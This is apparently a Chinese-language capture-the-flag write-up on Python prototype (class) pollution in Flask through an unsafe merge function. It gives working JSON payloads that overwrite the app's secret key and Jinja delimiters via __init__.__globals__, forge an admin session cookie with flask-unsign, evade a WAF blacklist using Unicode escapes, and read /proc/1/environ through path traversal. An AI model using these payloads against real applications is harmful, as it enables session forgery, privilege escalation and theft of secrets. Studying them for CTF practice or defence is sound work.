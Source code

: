 原型链
在Pyton中每个对象都有一个原型，原型上定义了对象可以访问的属性和方法。当对象访问属性或方法时，会先在自身查找，如果找不到就会去原型链上的上级对象中查找，原型链污染攻击的思路是通过修改对象原型链中的属性，使得程序在访问属性或方法时得到不符合预期的结果。
原型链污染和JavaScript的原型链污染差不多，都是需要merge 函数来修改父类的属性。

## **flask的原型链污染**
一个注册接口，默认传递参数是form
```
 "username": "test"&"password": "test",
```
已知登录后默认的jwt中is_admin:0

我们可以传递一个json:
```
{
  "username":"test",
  "password":"test",
  "is_admin":1
}
```
直接变成管理员。


^
还可以利用原型连污染，覆盖掉全局变量中的jwt的SECRET_KEY的值
```
{
    "username": "test",
    "password": "test",
    "__init__": {"__globals__": {"app": {"config": {"SECRET_KEY": "123456"}}}}
}
```
这样就可以伪造flask的jwt。
```
flask-unsign --sign --cookie "{'is_admin': 1, 'username': 'test1'}" --secret  '123456'
 
eyJpc19hZG1pbiI6MSwidXNlcm5hbWUiOiJ0ZXN0MSJ9.ZzYYAg.hqQmeTq4GCo4yfAofb0pngi0tpA
```


^
## **jinja模板用的[# flag #]进行原型链污染**
污染 flask key 和 模板字符串的闭合规则。

因为是JSON，遇到waf还可以利用 JSON 解析 Unicode 来绕过 waf
```
app = Flask(__name__)
app.secret_key = generate_random_md5()

def merge(src, dst):
    # 可能造成原型链污染的函数
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

@app.route('/',methods=['POST'])
def index():
    username = request.form.get('username')
    password = request.form.get('password')
    session["username"] = username
    session["password"] = password
    if request.data:
        if filter(str(request.data)):
            return "NO POLLUTED!!!YOU NEED TO GO HOME TO SLEEP~"
        else:
            merge(json.loads(request.data), Evil)  #这里直接json.load可能造成原型链污染

@app.route('/admin',methods=['POST', 'GET'])
def templates():
    username = session.get("username", None)
    password = session.get("password", None)
    if username and password:
        if username == "adminer" and password == app.secret_key:
            return render_template("flag.html", flag=open("/flag", "rt").read())
        else:
            return "Unauthorized"
    else:
        return f'Hello,  This is the POLLUTED page.'

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)


flag.html内容：
<body>
    这又是什么jinja语法啊！
    [#flag#]
</body>
```

这里要求password 等于全局变量app.secret_key后，可以通过flag.html带出flag。
flag.html里jinja模板用的[# flag #]，不是默认的{{ ... }}，不会渲染变量，这里需要加个jinja_env指定模板的闭合符号为[# #]让其可以像{{}}一样可以渲染。
```
{"__init__":
	{"__globals__":
		{"app":
			{
				"secret_key":"123456",
				"jinja_env":{
					"variable_start_string":"[#",
					"variable_end_string":"#]"
				}
			}
		}
	}
}
```
遇到waf，是json，直接unicode编码绕过
```
{"\u005f\u005f\u0069\u006e\u0069\u0074\u005f\u005f":
	{"\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f":
		{"\u0061\u0070\u0070":
			{
				"secret\u005fkey":"123456",
				"jinja\u005f\u0065\u006e\u0076":{
					"variable\u005fstart\u005f\u0073\u0074\u0072\u0069\u006e\u0067":"[#",
					"variable\u005fend\u005f\u0073\u0074\u0072\u0069\u006e\u0067":"#]"
				}
			}
		}
	}
}
```
此时继续根目录传递
```
username=adminer & password=123456
```



^
## **其他题payload**
```
data = {
	"username" : "admin", 
	"password" : "123456", # 在data中定义username和password保证data可以进入merge函数中
	"\u005F\u005F\u0069\u006E\u0069\u0074\u005F\u005F": { # 在check中可以看到有black_list,__init__被过滤了，使用unioncode进行绕过
		"__globals__" : {
			"__file__": "../../../proc/1/environ" # 大部分的flag都隐藏在环境变量中
		}
	}
}
```